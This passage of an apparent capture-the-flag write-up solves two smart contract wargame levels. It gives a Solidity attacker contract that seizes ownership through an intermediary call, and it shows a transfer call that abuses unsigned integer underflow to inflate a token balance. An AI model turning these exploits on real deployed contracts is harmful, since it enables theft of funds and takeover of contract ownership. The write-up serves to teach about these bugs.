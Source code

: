 -----
**Exploitation**

Based on our analysis we understand all we need is to call the function from an evil contract and pass our address as parameter.

```js
interface TelephoneInterface{ 
    function changeOwner(address _owner) external; 
}

contract EvilContract { 
    
    TelephoneInterface victimContract;
    contructor(address victimAddress) public {
        victimContract = TelephoneInterface(victimAddress);
    }

    function becomeOwner(address newOwner){
        victimContract.changeOwner(newOwner);
    }
}
```

Challenge solved ✅

## Token

--------
**Analysis**

This challenge is about **unsigned integers**. We need to be extra duper careful when handling them as they *overlap*. What does that mean ? 

```c#
uint8 X= 255;
X=X+1 // X = 0 ;
```
Now you see it.

![Token method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138020/61490e01f7f4c0dcaaa9366ce4607e17714ff36452e562e06c8bcd0d048c335a_df2hde.png)  

```js
 require(balances[msg.sender] - _value >= 0); // How about we pass a big value to this poor unsigned balances[msg.sender] ?
```

-----
**Exploitation**

We got 20 tokens, So I will be generous and give more than I own.

```js
 await contract.transfer(player,21);
```
